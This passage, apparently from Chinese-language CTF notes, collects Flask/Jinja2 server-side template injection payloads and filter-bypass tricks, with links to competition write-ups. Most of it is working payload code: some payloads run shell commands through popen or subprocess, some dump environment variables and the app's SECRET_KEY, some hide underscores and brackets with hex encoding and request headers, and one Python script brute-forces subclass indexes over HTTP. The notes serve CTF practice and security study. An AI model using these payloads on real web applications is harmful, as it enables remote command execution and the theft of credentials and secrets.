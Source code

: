   - 能发现flask注入需要大量`.`,`_`，如果被过滤了可以用`[]`替代`.`，16进制编码替代`_`。例如`{{()."__class__"."__bases__"[0]."__subclasses__"()[91]["get_data"](0, "/proc/self/fd/3")}}`绕过过滤的写法就是`{{()["\x5F\x5Fclass\x5F\x5F"]["\x5F\x5Fbases\x5F\x5F"][0]["\x5F\x5Fsubclasses\x5F\x5F"]()[91]["get\x5Fdata"](0, "/proc/self/fd/3")}}`。例题:[[pasecactf_2019]flask_ssti](https://blog.csdn.net/qq_40800734/article/details/107011638)
  - 有时候执行的命令在url里会被截断，可以通过传参的方式解决这个问题。`{{ "".__class__.__base__ .__subclasses__()[132].__init__.__globals__['popen'](request.args.get("cmd")).read()}}ge?cmd=cat /flag `
  - 利用request.values绕过过滤。需要爆破索引
    ```py
    """ import requests 
    for num in range(300): 
        url = ""
        d={"prefix":"{{","suffix":"}}","username":f"().__class__.__mro__.__getitem__(1).__subclasses__().__getitem__({num}).__init__.__globals__.__getitem__(request.values.a)","a":"popen"}
        res = requests.post(url,data=d).text 
        if "popen" in res: 
            print(num) 
            break """
    import requests 
    url = ""
    d={"prefix":"{{","suffix":"}}","username":f"().__class__.__mro__.__getitem__(1).__subclasses__().__getitem__(140).__init__.__globals__.__getitem__(request.values.a)(request.values.b).read()","a":"popen",'b':'env'}
    res = requests.post(url,data=d).text 
    print(res)
    ```
- `url_for.__globals__.os.__dict__.popen(request.args.file).read()`，然后传参file，内容为要执行的命令
- `url_for.__globals__.os.environ`,拿环境变量
- `config.__class__.from_envvar.__globals__.__builtins__.__import__(request.args.a).getenv(request.args.b)`，参数a是要导入的模块（os），参数b是环境变量名（把getenv换了就能执行别的了）
- `().__class__.mro()[1].__subclasses__()[337](get_flashed_messages.__class__.__mro__[1].__subclasses__()[3]((0x65,0x78,0x70,0x6f,0x72,0x74)).decode(),shell=True,stdout=-1).communicate()[0].strip()`
- `().__class__.__base__.__subclasses__()[148]()._module.__builtins__[request.args.b](request.args.c).environ`
- [Obligatory](https://github.com/spencerja/NahamConCTF_2023_Writeup/blob/main/Web/Obligatory.md)（ https://hackmd.io/@Chivato/HyWsJ31dI ）
     - `{{request|attr(%27application%27)|attr(%27\x5f\x5fglobals\x5f\x5f%27)|attr(%27\x5f\x5fgetitem\x5f\x5f%27)(%27\x5f\x5fbuil%27%27tins\x5f\x5f%27)|attr(%27\x5f\x5fgetitem\x5f\x5f%27)(%27\x5f\x5fimp%27%27ort\x5f\x5f%27)(%27os%27)|attr(%27po%27%27pen%27)(%27cmd%27)|attr(%27read%27)()}}`
    - `{{%22%22|attr(%27\x5f\x5f\x63\x6c\x61\x73\x73\x5f\x5f%27)|attr(%27\x5f\x5f\x62\x61\x73\x65\x5f\x5f%27)|attr(%27\x5f\x5f\x73\x75\x62\x63\x6c\x61\x73\x73\x65\x73\x5f\x5f%27)()|attr(%27\x5f\x5fgetitem\x5f\x5f%27)(411)(%27cmd%27,shell=True,stdout=-1)|attr(%27communicate%27)()}}`
    - 获取SECRET KEY：`{{self|attr("\x5f\x5fdict\x5f\x5f")}}`
- [PickYourStarter](https://github.com/MasonCompetitiveCyber/PatriotCTF2023/tree/main/Web/pickyourstarter)
    - 可以用自定义header传命令：`{{joiner.__init__.__globals__.os.popen(request.headers.cmd).read()}}`,然后header里添加`cmd: cat flag.txt`
`{{().__class__.__base__.__subclasses__().__getitem__(455)(request.args.shell,shell=True,stdout=(1).__neg__()).communicate()}}`:用getitem绕`[]`过滤，`(1).__neg__()`绕负号过滤
- [My First App](https://ireland.re/posts/UofTCTF_2024/#webmy-first-app)
    - 过滤方括号、下划线及引号。利用lipsum逃逸，`|attr()`代替方括号，并将带有下划线的项放在请求头，用`request.pragma.0`访问（有些header里面没法放下划线，Pragma可以，所以用多个Pragma传递带有下划线的项，数字表示第i个Pragma里的内容）
    - https://gist.github.com/C0nstellati0n/248ed49dea0accfef1527788494e2fa5#my-first-app
- [My Second App](https://hubert.hackin.ca/posts/uoftctf25-my-second-app)
    - python flask ssti绕过滤的究极题目。关键是用filter语法`|`（jinjia独有，普通pyjail不能用）
    - 这题还有个hash extension attack
- [Deathday Card](https://nullbrunk.github.io/posts/pragyan-deathdaycard)
    - 利用`config.update`绕过payload size限制。见 https://niebardzo.github.io/2020-11-23-exploiting-jinja-ssti 。之前在`Drink from my Flask`见过
    - [预期解](https://github.com/delta/PCTF25-Writeups/blob/main/web/birthday-card)则是利用了有多处注入点的设置用`%set`设置变量。殊途同归
- [Frog-WAF](https://fireshellsecurity.team/sekaictf-frog-waf-and-chunky)
    - java ssti模板注入（[EL - Expression Language](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/el-expression-language)）。此题的难点在于waf，限制了所有数字和一些特殊符号与java的类名
    - 其他payload：